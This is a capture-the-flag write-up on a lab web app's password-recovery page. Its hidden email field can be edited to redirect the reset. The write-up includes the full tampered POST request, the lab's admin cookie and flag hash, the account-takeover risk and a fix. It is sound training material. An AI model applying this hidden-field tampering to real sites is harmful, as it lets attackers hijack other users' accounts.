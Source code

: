 # Mail recovery interception

## Description
at url : http://192.168.56.101/?page=recover \
If we inspect the page html, in the form to submit to ask for a password recovery, \
we can see that some values are hidden but accessible:\
name="mail" and value="webmaster@borntosec.com".

editing those values before sending the form gives us the flag:
1d4855f7337c0c14b6f44946872c4eb33853f40b2d54393fbe94f49f1e19bbb0\
(recoverthis, encrypted in sha256)
## Step to reproduce
Sending the http request:
```
POST /?page=recover HTTP/1.1
Host: 192.168.56.101
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/png,image/svg+xml,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 36
Origin: http://192.168.56.101
Connection: keep-alive
Referer: http://192.168.56.101/?page=recover
Cookie: I_am_admin=68934a3e9455fa72420237eb05902327
Upgrade-Insecure-Requests: 1
Priority: u=0, i
mail=mymail%40hack.com&Submit=Submit
```
Make the flag appear on the new page.

## Danger
If we can ask that the password recovery from another user is send to our mail, we can take control of another user account.

## Recommanded fix
Not having the user send the email value in the POST request, even hidden in the html.\
If the website can retrieve the email associated with the account name, it doesn't need to have that value in the form at all.
